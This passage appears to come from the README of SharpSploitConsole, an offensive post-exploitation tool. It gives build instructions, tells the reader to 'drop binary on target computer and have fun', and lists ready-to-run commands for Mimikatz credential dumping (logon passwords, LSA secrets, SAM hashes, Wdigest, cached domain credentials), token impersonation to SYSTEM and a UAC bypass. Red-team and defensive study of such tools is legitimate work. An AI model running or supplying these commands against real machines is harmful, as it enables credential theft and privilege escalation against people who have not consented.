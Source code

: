    c. Open up notepad and paste the following code below and save it with the name FodyWeavers.xml inside the SharpSploitConsole               directory that holds your bin, obj, properties folders.

        <?xml version="1.0" encoding="utf-8"?>
        <Weavers>
          <Costura />
        </Weavers>

6. Inside visual studio, right click References on the righthand side, choose Add Reference, then browse to the                            SharpSploitConsole/bin/x64/Debug directory where we put our two DLL's, select them and add them.

7. Compile, drop binary on target computer and have fun.

Examples
========

Mimikatz all the things (does not run DCSync) - requires admin or system:

```Mimi-All```

Runs a specific Mimikatz command of your choice - requires admin or system:

```Mimi-Command privilege::debug sekurlsa::logonPasswords```

Runs the Mimikatz command privilege::debug sekurlsa::logonPasswords - requires admin or system:

```logonPasswords```

Runs the Mimikatz command to retrieve Domain Cached Credentials hashes from registry - requires admin or system:

```LsaCache```

Runs the Mimikatz command to retrieve LSA Secrets stored in registry - requires admin or system:

```LsaSecrets```

Retrieve password hashes from the SAM database - requires admin or system:

```SamDump```

Retrieve Wdigest credentials from registry - requires admin or system:

```Wdigest```

Retrieve current user:

```whoami```

```Username```

Impersonate system user - requires admin rights:

```GetSystem```

Bypass UAC - requires binary | command | path to binary - requires admin rights:

```BypassUAC cmd.exe ipconfig C:\Windows\System32\```

```BypassUAC cmd.exe "" C:\Windows\System32\```

Ends the impersonation of any token, reverts back to initial token associated with current process:

```RevertToSelf```

Retrieve current working directory:

```CurrentDirectory```
```